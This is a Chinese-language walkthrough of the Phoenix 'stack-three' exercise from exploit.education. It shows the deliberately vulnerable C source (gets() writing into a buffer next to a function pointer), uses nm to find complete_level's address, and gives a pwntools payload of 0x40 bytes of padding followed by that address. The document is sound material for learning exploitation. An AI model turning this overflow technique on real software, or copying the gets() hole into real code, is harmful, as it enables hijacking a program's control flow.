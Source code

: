 # STACK THREE

Stack Three looks at overwriting function pointers stored on the stack.

**Hints**

- You can use gdb and objdump to determine where the complete_level() function is in memory.

### Source code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

官方页面

直接 Ghidra 载入

![image-20200428154650447](image-20200428154650447.png)

这题的目的就是让我们劫持程序的执行流程，可以看到，在 main 函数里面并没有直接或间接调用 `complete_level`函数，我们现在的目的是调用它，怎么做？

这个还是一样的 栈溢出 变量覆盖，不过这一次我们不是之前的覆盖变量

我们要覆盖 `local_18`，把 `local_18` 覆盖成 `complete_level`函数的地址

可以看到 `(*local_18)();` 这一句，把 `*local_18` 当成函数去执行了，所以，我们只要覆盖 `local_18` 成 `complete_level`函数的地址就可以实现调用 `complete_level`函数

至于怎么获取 `complete_level`函数的地址，其实这里程序在编译的时候关掉了 PIE 

我是直接用 nm 导出符号

![image-20200428155546073](image-20200428155546073.png)

可以得到 

```
000000000040069d T complete_level
```

前面的数字就是函数地址

```bash
nm stack-three | grep complete_level | cut -d " " -f 1
```

![image-20200428155836313](image-20200428155836313.png)

`0x000000000040069d` 就是 `complete_level` 的地址，好了现在看一下我们要填充的长度

![image-20200428160143244](image-20200428160143244.png)

填充的长度 

`0x58 - 0x18 = 0x40`

写 payload：

```python
from pwn import *

complete_level = 0x000000000040069d
exp = "A" * 0x40
exp += p64(complete_level)

print(exp)
```

![image-20200428161149324](image-20200428161149324.png)

pwn ！